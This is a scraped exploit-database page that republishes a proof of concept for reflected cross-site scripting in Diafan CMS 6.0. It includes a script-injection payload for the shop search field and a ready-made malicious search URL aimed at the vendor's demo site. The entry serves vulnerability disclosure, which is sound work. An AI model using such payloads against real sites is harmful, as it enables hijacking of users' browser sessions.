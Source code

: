 ```yaml
---
title: Diafan CMS 6.0 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173019&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-20
fetch_date: 2025-10-04T11:44:40.295638
---
```


# Diafan CMS 6.0 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Diafan CMS 6.0 Cross Site Scripting

2023-06-19 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173019
# Exploit Title: Diafan CMS 6.0 - Reflected Cross-Site Scripting (XSS)
# Exploit Author: tmrswrr / Hulya Karabag
# Vendor Homepage: https://www.diafancms.com/
# Version: 6.0
# Tested on: https://demo.diafancms.com

Description:

1) https://demo.diafancms.com/ Go to main page and write your payload in Search in the goods > Article field:
Payload : "><script>alert(document.domain)<%2Fscript>
2) After will you see alert button :
https://demo.diafancms.com/shop/?module=shop&action=search&cat_id=0&a=%22%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&pr1=0&pr2=0
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)